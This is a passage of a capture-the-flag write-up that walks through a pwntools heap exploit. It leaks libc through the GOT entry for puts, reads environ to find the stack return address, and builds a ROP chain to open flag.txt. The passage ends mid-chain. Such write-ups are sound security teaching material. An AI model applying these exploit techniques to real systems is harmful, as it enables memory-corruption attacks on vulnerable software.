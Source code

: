 Above is mostly standard pwntools headers, however a bit more advanced since we need to use the provided `ld` and `libc`.

The `offset` is the distance from the `environ` location to the return address on the stack.  This was measured in GDB, however it was not the same for local and remote systems.  

> This is not uncommon.  If not exact, it is usually close, so I just test +/- 8, 16, etc... until I find it.  There may be a better way, but this usually works for me.

```python
for i in range(10): create(p, i, 0x80, b'')
for i in range(10): free(p, i)
```

This should look familiar (see Analysis section).

```python
payload  = b''
payload += p64(6)
payload += p64(binary.got.puts)

create(p, 0, 0x100, payload)
s = read(p, 7).split()[::-1]
libc.address = int('0x' + ''.join(s),16) - libc.sym.puts
log.info('libc.address: {x}'.format(x = hex(libc.address)))
```

Instead of writing out garbage like in the Analysis section we'll write out the size and location of `puts` from the GOT to index 0, and then read the libc leak from index 7.

```python
payload  = b''
payload += p64(6)
payload += p64(libc.sym.environ)

write(p, 0, payload)
s = read(p, 7).split()[::-1]
environ = int('0x' + ''.join(s),16)
log.info('environ: {x}'.format(x = hex(environ)))

# used gdb to find offset to return address
return_address = environ - offset
log.info('return_address: {x}'.format(x = hex(return_address)))
```

Same trick, but this time read the location of the environment from libc.  Using that we can compute the location of the return address on the stack.

```python
pop_rdi = libc.search(asm('pop rdi; ret')).__next__()
pop_rsi = libc.search(asm('pop rsi; ret')).__next__()
pop_rdx_r12 = libc.search(asm('pop rdx; pop r12; ret')).__next__()
xchg_eax_edi = libc.search(asm('xchg eax, edi; ret')).__next__()

rop  = b''

rop += p64(pop_rdi)
rop += p64(return_address + 0x200) # will put flag.txt at end of our payload)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(pop_rdx_r12)
rop += 2 * p64(0)
rop += p64(libc.sym.open)

rop += p64(xchg_eax_edi)
rop += p64(pop_rsi)
rop += p64(return_address + 0x300) # scratch space down stack
rop += p64(pop_rdx_r12)
rop += p64(100) + p64(0)
```